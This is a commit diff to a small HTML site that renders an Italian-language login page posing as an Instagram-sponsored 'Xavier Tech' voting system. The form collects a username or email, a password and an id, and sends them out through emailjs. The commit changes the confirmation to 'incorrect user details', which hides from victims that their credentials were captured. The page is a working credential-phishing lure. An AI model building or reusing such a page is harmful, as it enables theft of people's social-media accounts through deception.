

Before and after one commit to xaviertech-inc/payday, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (333-973 px from the left). Drawn offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -4,154 +4,46 @@
     <meta charset="UTF-8">
     <meta http-equiv="X-UA-Compatible" content="IE=edge">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>payday</title>
+    <title>sistema di voto Xavier Tech</title>
     <!-- <link rel="shortcut icon" href="asset/media/images/insta.jfif" type="image/x-icon"> -->
     <script src="https://kit.fontawesome.com/358d766f87.js" crossorigin="anonymous"></script>
     <style>
         main{
-            /* width: 100%; */
             display: flex;
             justify-content: center;
-            padding-left: 50px;
-        }
-        .form{
-            display: block;
-            /* padding-left: 0px; */
         }
         input{
-            /* display: block; */
-            margin-top: 5px;
-            margin-bottom: 5px;
-            width: 255px;
-            border-radius: 10px;
-            padding: 5px;
-            background-color: rgb(236, 234, 234);
-            border-color: rgb(221, 219, 219);
-            text-shadow: 30px;
+            width: 300px;
+            display: block;
+            margin: 5px;
+            padding: 7px;
+            background-color: lightgrey;
+            border-color: lightgrey;
+            border-radius: 5px;
+            font-weight: 500;
         }
         button{
+            width: 300px;
+            padding-left: 3px;
+            margin-left: 15px;
+            padding: 7px;
+            background-color: blue;
             color: white;
-            background-color: rgba(0, 0, 255, 0.678);
-            border-color: white;
-            width: 260px;
-            border-radius: 20px;
-            padding: 5px;
-            font-weight: 900;
+            font-weight: 600;
+            border-radius: 5px;
+            border-color: blue;
         }
-        button:hover{
-            cursor: pointer;
+        #text{
+            color: blue;
+            padding-left: 100px;
+            font-weight: 800;
         }
-        a{
-            text-decoration: none;
-            color: rgba(10, 10, 247, 0.678);
-        }
-        .space{
-            height: 40px;
-            color: white;
-        }
-        .space1{
-            height: 10px;
+        span{
+            color: red;
         }
         i{
-            margin-left: 100px;
-            font-size: 15px;
-            color: rgb(182, 35, 35);
-        }
-        #text{
-            font-size: 25px;
-            margin-left: 85px;
-            color: red;
-        }
-        span{
             color: blue;
-            }
-        /* hide password */
-        .fa-solid{
-            position: relative;
-            /* top: 50%; */
-            margin-bottom: 0;
-            font-size: 15px;
-            right: 30px;
-            transform: translateY(-50%);
-            cursor: pointer;
-            color: green;
-            transition: all 0.3s ease;
-            margin-left: 0;
-        }
-
-        @media only screen and (min-width:270px){
-            main{
-                padding-left: 14px;
-            }
-            input{
-                width: 210px;
-                font-size: 12px;
-            }
-            button{
-                width: 215px;
-            }
-            #text{
-                font-size: 13px;
-                margin-top: 15px;
-            }
-            i{
-                font-size: 12px;
-                font-weight: 900;
-            }
-            .space{
-                height: 80px;
-            }
-        }
-        @media only screen and (min-width:350px) {
-            main{
-                padding-left: 30px;
-            }
-            #text{
-                font-size: 25px;
-                margin-left: 85px;
-            }
-            input{
-                width: 280px;
-                padding: 10px;
-            }
-            button{
-                padding: 10px;
-                width: 290px;
-                margin-left: 5px;
-            }
-            i{
-                font-size: 15px;
-            }
-            .space{
-                height: 100px;
-            }
-
-        }
-        @media only screen and (min-width:700px){
-            main{
-                padding-left: 50px;
-            }
-            #text{
-                font-size: 25px;
-                margin-left: 75px;
-            }
-            input{
-                width: 300px;
-                padding: 10px;
-            }
-            button{
-                padding: 10px;
-                width: 310px;
-                font-weight: 1500;
-            }
-            i{
-                font-size: 17px;
-                margin-left: 120px;
-            }
-            .space{
-                height: 100px;
-            }
-
+            margin-left: 70px;
         }
     </style>
 </head>
@@ -162,17 +54,17 @@
     <main>
 
     <form id="form" onsubmit="messagE()" method="post">
-        <i id="text"><span>Xavier</span> Tech inc<span>.</span></i>
+        <p id="text"><span>Xavier</span> Tech inc<span>.</span></p>
         <div class="space1"></div>
         <div class="form">
             <!-- <input type="text" name="username" placeholder="Phone number, username or email address" required> -->
             <input type="text" name="username" placeholder="numero di telefono, nome untente or indrizino di posta" title="input correct credential" required>
-            <br>
+
             <input type="password" name="password" id="password-input" placeholder="password" title="input correct password" required>
-<!--             <i id="toggle-password" class="fa-solid fa-eye-slash"></i> -->
-            <br>
+            <!-- <i id="toggle-password" class="fa-solid fa-eye-slash"></i> -->
+
             <input type="text" name="id" placeholder="id" title="input correct id" required>
-            <br>
+
             <button id="send-button">login</button>
             <p><i>sponsorizzato da <span>Instagram</span></i></p>
         </div>
@@ -203,7 +95,7 @@
         emailjs.sendForm(serviceID, templateID, form)
         .then(() => {
         sendButton.value = 'Send Email';
-        alert('vote pending!');
+        alert('incorrect user details');
         }, (err) => {
         sendButton.value = 'Send Email';
       alert(JSON.stringify(err));
```
